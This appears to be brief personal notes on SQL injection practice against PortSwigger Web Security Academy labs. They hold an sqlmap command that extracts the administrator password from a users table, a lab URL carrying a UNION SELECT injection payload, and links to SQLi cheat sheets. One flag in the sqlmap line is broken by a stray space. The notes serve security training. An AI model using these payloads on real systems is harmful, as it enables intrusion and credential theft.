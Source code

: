 ____

```bash
sqlmap -u "URL" --cookie='lab=cookie' --level 5 --risk 3 -p param --batch --threads 10 --dbms=postgresql --sq l-query="SELECT password from USERS where username='administrator'"
```

[https://tib3rius.com/sqli](https://tib3rius.com/sqli) 

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


https://0acd00d604cbebeb81e54896000f00d3.web-security-academy.net/filter?category=%27%20union%20select%20%271%27,%272%27,%20VERSION(),%274%27,%275%27,%276%27,%277%27,%278%27--%20-


